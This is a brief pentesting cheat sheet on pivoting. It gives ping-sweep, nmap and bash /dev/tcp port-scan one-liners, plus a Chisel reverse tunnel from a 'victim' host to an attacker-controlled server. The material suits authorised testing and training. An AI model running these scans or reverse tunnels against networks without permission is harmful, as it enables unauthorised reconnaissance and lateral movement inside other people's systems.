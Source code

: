 ### [Resources on pivoting]

https://www.offensive-security.com/metasploit-unleashed/pivoting/  

### [fping]

You can use fping to quickly ping hosts within a network.

https://fping.org/

https://fping.org/dist/

```
fping -q -a -g -r 1 <IP>/24
```

### ping sweep (example provided by John Hammond)

https://youtu.be/pbR_BNSOaMk

```
for i in $(seq 254); do ping 10.1.2.$i -c1 -cW1 & done | grep from
```

### [Portable NMAP Scanner]

You can scan and enumerate ports on a list of ports.

```
./nmap -iL ip_list.txt --min-rate=6000
```

https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap  

### [Port Forwarding using Chisel]

ippsec demonstration

https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=1620&ab_channel=IppSec

Breakdown

https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html

```
Victims Box: ./chisel client <attackersIP>:8011 R:1234:127.0.0.1:1234
Attackers Box: ./chisel server -p 8011 --reverse
```

### port checking (thanks to @TheCyberGeek)

```
for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/<IP>/$PORT &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done
```
